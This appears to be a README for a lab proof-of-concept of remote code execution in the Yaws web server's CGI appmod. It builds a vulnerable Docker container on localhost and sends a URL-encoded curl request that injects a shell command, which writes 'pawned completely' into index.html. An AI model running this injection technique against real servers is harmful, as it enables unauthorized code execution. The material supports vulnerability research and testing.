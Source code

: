 # Yaws RCE (CGI appmod)

`docker build -t vulnbe/yaws-pocs:rce-appmod-cgi -f Dockerfile .`

and/or

Run container `docker run --rm -d -i -p 127.0.0.1:8000:8080 vulnbe/yaws-pocs:rce-appmod-cgi`

```bash
curl 'http://127.0.0.1:8000/cgi-bin/%22%60export%20Z=$(pwd%7Ccut%20-c1);echo%20pawned%20completely%3E%3E..$Z%22%22index.html%60%22'
curl http://127.0.0.1:8000/index.html
```
